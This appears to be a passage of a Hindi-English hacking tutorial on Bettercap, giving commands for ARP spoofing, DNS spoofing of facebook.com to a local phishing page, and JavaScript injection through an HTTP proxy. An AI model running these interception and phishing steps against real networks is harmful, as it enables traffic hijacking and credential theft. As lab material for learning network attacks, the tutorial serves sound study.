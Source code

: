 ## 2️⃣ ARP Spoofing (MITM)

### 🔎 Attack:
Victim को यह दिखाना कि Hacker ही Router है और Router को दिखाना कि Hacker ही Victim है।

### 🛠️ Commands:
```bash
set arp.spoof.targets <victim-ip>
arp.spoof on
```

### 🧪 Hands-on:
- Wireshark में देखें कि Victim के पैकेट अब आपके सिस्टम से होकर जा रहे हैं।

---

## 3️⃣ DNS Spoofing

### 🔎 Attack:
Victim जब कोई वेबसाइट (जैसे facebook.com) खोले, तो उसे आपकी बनाई हुई वेबसाइट पर भेजना।

### 🛠️ Commands:
```bash
set dns.spoof.domains facebook.com
set dns.spoof.address 192.168.0.100
dns.spoof on
```

### 🧪 Hands-on:
- एक local phishing page बनाएं।
- Victim को spoofed IP पर redirect करें।

---

## 4️⃣ HTTP Proxy + JS Injection

### 🔎 Attack:
Victim के web pages में JS/HTML inject करना (alert box, keylogger, redirect)।

### 🛠️ Steps:
1. Create a file `jsinject.js`:
```javascript
document.body.innerHTML += '<h1>Alert: Hacked by Bettercap!</h1>';
```

2. Bettercap में run करें:
```bash
set http.proxy.script jsinject.js
http.proxy on
```

---
